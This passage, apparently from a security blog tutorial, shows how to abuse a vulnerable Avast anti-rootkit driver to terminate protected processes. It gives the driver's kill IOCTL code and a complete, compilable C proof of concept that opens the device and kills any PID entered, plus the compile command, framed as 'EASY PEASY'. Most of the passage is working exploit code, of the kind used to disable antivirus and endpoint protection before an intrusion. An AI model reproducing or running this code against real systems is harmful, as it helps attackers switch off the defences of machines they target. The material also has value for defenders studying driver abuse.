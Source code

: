 And send the kill IOCTL with the PID of our target using `DeviceIoControl`

```assembly
DeviceIoControl(hDevice, 0x9988c094, &pid, sizeof(pid), NULL, 0, &lpBytesReturned, NULL);
```

**VOILA**, you now have a PoC that allows you to kill any protected process using a vulnerable driver. EASY PEASY!

```assembly
#include <stdio.h>
#include <windows.h>

#define IOCTL_KILL_PROCESS 0x9988c094

int main(void) {

	unsigned int pid;
	unsigned int res;
	DWORD lpBytesReturned = 0;
	
	HANDLE hDevice = CreateFileA("\\\\.\\aswSP_Avar", GENERIC_WRITE|GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	
	if(hDevice == INVALID_HANDLE_VALUE){
		printf("Connection to the driver failed\n");
		return -1;
	}
	
	printf("Connected to the Avast anti-rootkit driver");
	printf("PID please : \n");
	scanf("%u", &pid);

	res = DeviceIoControl(hDevice, IOCTL_KILL_PROCESS, &pid, sizeof(pid), NULL, 0, &lpBytesReturned, NULL);

	if (!res) {
		printf("Killing IOCTL failed\n");
    	CloseHandle(hDevice);
    	return -1;
	}
         
	printf("Process with PID : %u killed\n", pid);
	CloseHandle(hDevice);
         
	return 0;
}
```

> x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 

### Reference

https://blog.itpub.net/70041575/viewspace-3050026/

https://alice.climent-pommeret.red/posts/process-killer-driver/#the-basics

https://github.com/xalicex/Killers